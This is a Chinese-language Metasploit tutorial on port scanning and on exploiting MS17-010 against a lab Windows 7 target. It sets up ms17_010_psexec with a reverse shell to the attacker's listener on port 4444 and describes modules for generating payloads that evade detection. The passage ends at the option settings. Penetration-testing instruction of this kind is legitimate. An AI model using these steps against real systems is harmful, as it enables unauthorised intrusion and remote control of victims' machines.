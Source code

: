 ~~~shell
post：后渗透阶段模块，漏洞利用成功获得meterpreter之后，向目标发送的一些功能性指令，如:提权等
encoders：编码器模块，主要包含各种编码工具，对payload进行编码加密，以便绕过入侵检测和过滤系统
evasion：躲避模块，用来生成免杀payload
nops：由于IDS/IPS会检查数据包中不规则的数据，在某些情况下，比如针对溢出攻击，某些特殊滑行字符串(NOPS x90x90...)则会因为被拦截而导致攻击失效  

# 初始化Metasploit的数据库
msfdb init

# 启动Metasploit进入交互式命令行
msfconsole

# 查看是否成功连接到数据库
db status

# 查看当前工作区
workspace

# 查看帮助
workspace -h

# Metasploit中使用nmap进行主机发现
db_nmap -PA -PS [host]
# -PA:TCP ACK PING扫描
# -PS:TCP SYN PING扫描
# -PR:ARP扫描是nmap对目标进行一个arpping扫描的过程，尤其在内网的情况下。因为防火墙不会禁止ARP请求。
# 基本上所有参数的使用都和nmap接近

# 进入指定模块，执行之后会在命令行提示符前面显示相关模块，例如执行下面的命令进入模块会命令行提示符前面会显示 (auxiliary)scanner/portscan/syn
use auxiliary/scanner/portscan/syn
# auxiliary/scanner/portscan/syn是tcp服务端口扫描模块
# 如果不知道使用什么模块，就去上面的框架目录路径找相关模块下的目录，然后使用 search portscan 进行搜索目录可以获得相关描述信息

# 查看当前模块的参数描述信息以及当前的设置
show options

# 在当前模块下设置参数
set [参数] [参数值] 
# set rhost 192.168.0.134 设置目标主机地址
# 使用unset可以禁用参数

# 运行启动当前模块，以下两个命令都行
exploit
run

# 退出当前模块
back


# 案例：设置一台windows 7的靶机(目前公网上基本没有只有的机器，一些内网环境中可能存在)，基本包含ms17_010的漏洞，然后尝试攻击获得meterpreter
# 进入该漏洞扫描模块
use auxiliary/scanner/smb/smb_ms17_010
# 查看参数信息和进行设置参数
show options
set rhost 192.168.0.134 # 设置目标靶机地址
# 运行漏洞扫描
run 
# 如果存在ms17_010的漏洞，就进入该漏洞的利用模块
use exploit/windows/smb/ms17_010_psexec
# 查看参数信息和进行设置参数，该漏洞使用的是反弹Shell，在当前机器上监听一个端口，然后靶机发起请求到该端口，并将其命令行的输入输出转到当前机器
show options
set lhost 192.168.0.128  # 设置当前攻击机器的IP地址
set lport 4444           # 设置当前攻击机器启动监听的端口
set rhost 192.168.0.134  # 设置目标靶机地址
~~~